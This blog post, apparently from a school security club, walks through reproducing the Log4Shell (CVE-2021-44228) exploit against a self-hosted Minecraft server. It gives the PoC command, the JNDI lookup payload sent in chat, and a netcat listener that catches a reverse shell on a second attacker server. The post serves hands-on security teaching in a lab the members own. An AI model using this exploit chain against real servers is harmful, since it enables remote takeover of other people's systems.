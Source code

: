 ```yaml
---
layout: post
title:  "minecraft log4j"
date:   2021-12-20
categories: linux
---
```


Last meeting we went over an overview of vulnerability research, the recent log4j vulnerability, and finally some more Linux stuff.

More interestingly though, instead of doing challenges individually we set up a live Minecraft 1.8 server that was vulnerable, and we "took over" the blairsec server as `minecraftsteve123`. These are the instructions to replicate what we did, if you want to try yourself.

First, get two servers with static IPs. You can rent servers from AWS or DigitalOcean or other providers. One will host the actual Minecraft server, and one will be where we host our malware and wait for a shell on the first server.

On the first server, get a vulnerable Minecraft and Java version. Use Java version `8u20`, downloaded from [here](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html). Then, download the minecraft server jarfile from [here](https://www.minecraft.net/en-us/download/server). You can start the server with `java -Xmx1024M -Xms1024M -jar server.jar nogui`.

Finally, make sure your server's TCP port 25565 is allowed by your firewall if you have one, as that's the port that Minecraft uses. Also make sure your Virtual Private Server host firewall allows TCP on 25565 (for example, AWS has their own firewall thing in their dashboard).

Now you should be able to connect to your own server with your Minecraft client.

Next, switch to your second server. This is where our malware will live. Clone the POC repository from [github](https://github.com/kozmer/log4j-shell-poc), and download the same Java version you used to run the Minecraft server (`8u20`).

Then, just run `python3 poc.py --userip <second server IP> --webport 8080 --lport 9001`. This starts two listeners on your server, an HTTP listener running on 8080 and a listener on 1389. It also tells the malware how to get back to your second server - through port 9001. Make sure your second server's firewall allows those.

You should get an output similar to:
```text
[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://xxx.xxx.xxx.xxx:1389/a}
[+] Starting Webserver on port 8080 http://0.0.0.0:8080

Listening on 0.0.0.0:1389
```

Now, start a listener on your second server with `nc -lnvp 9001`. This listens for connections on port 9001 that our malware will make once it's been run by the Minecraft server.

With all that setup, you should be able to type what the POC script tells you to send in Minecraft chat. The Minecraft server will log that chat message, causing an LDAP lookup, causing our malware to be downloaded and run, and a connection with a shell to be sent to our second server on port 9001.

On our second server, once you get a "Connection received from ...", you have a shell. Type `ls` to verify it works, and `whoami` to see who you are impersonating. :o


MCPS is pulling a very cool gamer move on us and cancelling after school activities. So not sure when we will meet next. Mrs. Hallisey is supposed to be back when winter break ends, at least!

So see you whenever I see you, I guess. Maybe we will have an informal meeting on Discord to play some secure Minecraft or something over break.

~ josh
